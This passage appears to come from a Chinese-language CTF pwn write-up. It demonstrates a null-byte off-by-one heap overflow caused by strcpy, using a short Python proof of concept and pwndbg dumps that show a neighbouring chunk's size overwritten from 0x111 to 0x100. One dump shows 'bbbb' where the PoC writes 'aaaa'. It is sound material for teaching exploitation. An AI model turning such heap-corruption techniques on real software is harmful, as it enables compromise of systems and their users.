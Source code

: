 ```c
  note[i] = note_chunk;
  note_size[i] = size;
}
```

我们知道strcpy在拷贝字符串时连末尾的'\0'也会一起拷贝，假设我们的字符串长度刚好和所分配给它的长度相等，那么就可能会造成null-byte-off-by-one漏洞，我们简单的验证一下

```python
#poc
new(0x10,'a'*8)
new(0x110,'aaaa')
raw_input()

free(0)
new(0x18,'a'*0x18)
raw_input()
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Used                None              None
0x565258e29270      0x0                 0x110                Used                None              None

pwndbg> parseheap
addr                prev                size                 status              fd                bk   
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Freed 0x61616161616161610x6161616161616161
0x565258e29270      0x6161616161616161  0x100                Freed         0x62626262               0x0
Corrupt ?! (size == 0) (0x565258e29370)

```

```bash
pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x0000000000000000
0x565258e29270:	0x0000000000000000	0x0000000000000111
0x565258e29280:	0x0000000062626262	0x0000000000000000

pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x6161616161616161
0x565258e29270:	0x6161616161616161	0x0000000000000100   ==>这里原本应该为0x111但最末尾的0x11被0x00覆盖了
0x565258e29280:	0x0000000062626262	0x0000000000000000
```
